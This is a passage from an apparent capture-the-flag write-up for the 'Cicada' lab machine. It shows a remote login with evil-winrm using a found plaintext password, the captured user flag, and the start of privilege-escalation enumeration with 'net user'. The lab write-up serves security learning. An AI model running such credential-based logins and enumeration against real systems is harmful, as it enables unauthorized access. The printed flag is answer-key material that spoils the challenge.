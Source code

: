 nice, we can login to `winrm` with this user, lets login

## Logging in as emily.oscars

```bash
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

grabbed user flag: `f714f5fe3dc9c0cf4aae2d0cacaf9e03`

proof: 

![cicada_image.png](MediaFiles/cicada_image1.png)

---

# Privesc

## Group membership

We could launch Bloodhound, but lets inspect group membership from the inside first:

```bash
net user emily.oscars
```
